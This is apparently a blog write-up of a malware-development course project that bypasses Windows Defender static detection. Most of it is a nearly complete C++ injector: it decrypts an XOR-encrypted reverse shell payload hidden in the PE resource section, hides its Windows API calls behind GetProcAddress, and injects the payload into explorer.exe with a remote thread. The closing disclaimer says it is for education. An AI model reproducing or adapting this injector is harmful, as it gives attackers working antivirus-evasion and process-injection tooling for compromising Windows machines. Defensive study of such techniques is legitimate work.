 
# Bypassing Windows Defender Static Detection

## Introduction

In this article, I’ll walk you through how I bypassed the **static detection** of Windows Defender. Currently, I haven’t managed to evade dynamic detection, but I aim to achieve full evasion in the coming months.

To accomplish this, I leaned heavily on the excellent **Malware Development Essentials** course from [Sektor7](https://institute.sektor7.net/). It’s an incredibly informative course on low-level malware development. What follows is essentially the final project I completed as part of this training.

---

## Overview

### Objective

Inject a reverse shell payload into `explorer.exe` while avoiding static detection by Windows Defender.

### Key Evasion Techniques

- Store the payload in the `.rsrc` section of the PE file.
- Encrypt the payload using XOR.
- Obfuscate API calls using `GetProcAddress` and `GetModuleHandle`.
- Encrypt suspicious strings using XOR.

---

![image](https://github.com/user-attachments/assets/77a0f8f8-3a16-45b5-99f6-53806998c853)

## Code Breakdown

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"

// Function pointers for API calls
LPVOID (WINAPI * allocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
BOOL (WINAPI * writeMem)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
HANDLE (WINAPI * createThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);

char key[] = "mysecretkeee";
char key2[] = "s12";

// XOR encryption/decryption
void XOR(char * data, size_t len, char * key, size_t key_len) {
    int j = 0;
    for (int i = 0; i < len; i++) {
        if (j == key_len - 1) j = 0;
        data[i] ^= key[j++];
    }
}

// Find process ID of target
int FindTarget(const char *procname) {
    PROCESSENTRY32 pe32;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snapshot == INVALID_HANDLE_VALUE) return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32);
    if (!Process32First(snapshot, &pe32)) {
        CloseHandle(snapshot);
        return 0;
    }

    while (Process32Next(snapshot, &pe32)) {
        if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
            CloseHandle(snapshot);
            return pe32.th32ProcessID;
        }
    }

    CloseHandle(snapshot);
    return 0;
}

// Inject payload into process
int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
    unsigned char s_allocEx[] = { /* obfuscated bytes */ };
    unsigned char s_writeMem[] = { /* obfuscated bytes */ };
    unsigned char s_createThread[] = { /* obfuscated bytes */ };

    XOR((char *) s_allocEx, sizeof(s_allocEx), key2, sizeof(key2));
    XOR((char *) s_writeMem, sizeof(s_writeMem), key2, sizeof(key2));
    XOR((char *) s_createThread, sizeof(s_createThread), key2, sizeof(key2));

    allocEx = GetProcAddress(GetModuleHandle("kernel32.dll"), s_allocEx);
    writeMem = GetProcAddress(GetModuleHandle("kernel32.dll"), s_writeMem);
    createThread = GetProcAddress(GetModuleHandle("kernel32.dll"), s_createThread);

    LPVOID remote = allocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    writeMem(hProc, remote, payload, payload_len, NULL);

    HANDLE hThread = createThread(hProc, NULL, 0, remote, NULL, 0, NULL);
    if (hThread) {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}

// Main execution
int main(void) {
    void * exec_mem;
    HANDLE hProc;
    DWORD oldprotect;
    unsigned char * payload;
    unsigned int payload_len;

    HRSRC res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
    HGLOBAL resHandle = LoadResource(NULL, res);
    payload = (char *) LockResource(resHandle);
    payload_len = SizeofResource(NULL, res);

    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec_mem, payload, payload_len);
    XOR((char *) exec_mem, payload_len, key, sizeof(key));

    printf("Ready to inject. Press Enter to continue...
");
    getchar();

    int pid = FindTarget("explorer.exe");
    if (pid) {
        hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
        if (hProc) {
            Inject(hProc, exec_mem, payload_len);
            CloseHandle(hProc);
        }
    }

    return 0;
}
```

---

## Payload

The reverse shell payload is not included directly in the source. Instead, it's stored in the `.rsrc` section of the PE file. Learn more about this technique in this writeup:

> 📖 [Storing Payload in PE File (Medium article)](https://medium.com)

---

## Result

After compiling the binary and scanning it with Windows Defender, it triggers detection when executed — **not** on static scan. This demonstrates that static evasion is working as intended. The reverse shell is launched only when `explorer.exe` is active and undisturbed.

---

## Conclusion

This project is a practical example of basic static detection evasion for educational purposes. I hope it helps anyone learning about red teaming and malware development.

More to come — including full evasion from Windows Defender.

-- **Malforge Group**


---

> **Disclaimer:** This is for educational and ethical hacking purposes only. Never use this knowledge for illegal activities.
